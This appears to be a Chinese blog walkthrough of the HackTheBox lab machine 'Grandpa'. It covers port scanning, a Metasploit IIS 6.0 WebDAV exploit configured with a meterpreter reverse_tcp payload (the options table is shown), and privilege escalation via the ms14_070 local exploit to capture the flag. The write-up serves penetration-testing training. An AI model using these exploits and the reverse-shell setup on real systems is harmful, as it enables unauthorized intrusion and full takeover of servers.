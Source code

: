 ```yaml
---
title: Hackthebox::Grandpa walkthrough
date: 2021/12/14
categories: 渗透测试
tags: [渗透测试,walkthrough]
top_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_22.jpg
cover: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_22.jpg
---
```


- **Grandpa是hackthebox上一台难度为简单的windows靶机**

# 信息收集

- 首先使用nmap扫描一下端口情况

![image-20211227230552901](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227230552901.png)

- 然后使用nmap扫描一下是否存在漏洞

![image-20211227230757330](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227230757330.png)

- 通过两次nmap的扫描，我们得知靶机开放了80端口，并且存在漏洞
- 使用searchsploit扫描`Microsoft IIS httpd 6.0`服务，看看是否有可以被利用的漏洞

![image-20211227231051633](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227231051633.png)

- 我们发现了许多可以使用的脚本，再次使用msf查看是否可以利用‘

![image-20211227231247078](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227231247078.png)

- 我们发现了可以利用的部分，我们使用第二个

```shell
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > show options

Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   MAXPATHLENGTH  60               yes       End of physical path brute force
   MINPATHLENGTH  3                yes       Start of physical path brute force
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS         10.129.166.10    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          80               yes       The target port (TCP)
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI      /                yes       Path of IIS 6 web application
   VHOST                           no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Windows Server 2003 R2 SP2 x86
```

- 我们成功进入了，但是很可惜我们的权限不足

![image-20211227231707825](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227231707825.png)

- 我们将迁移进程，并且寻找合适的漏洞利用脚本来入侵
- 迁移进程

![image-20211227231911796](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227231911796.png)

# 漏洞利用

- 使用suggester查看可以利用漏洞的脚本

![image-20211227232427257](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227232427257.png)

- 我们发现了以下可以使用的方式，我们选择`exploit/windows/local/ms14_070_tcpip_ioctl`

![image-20211227233022025](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227233022025.png)

- 完成设置

![image-20211227233230168](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227233230168.png)

- 好的，我们成功了，获得了最高权限

![image-20211227233425946](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227233425946.png)

- 查看flag

![image-20211227233646152](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227233646152.png)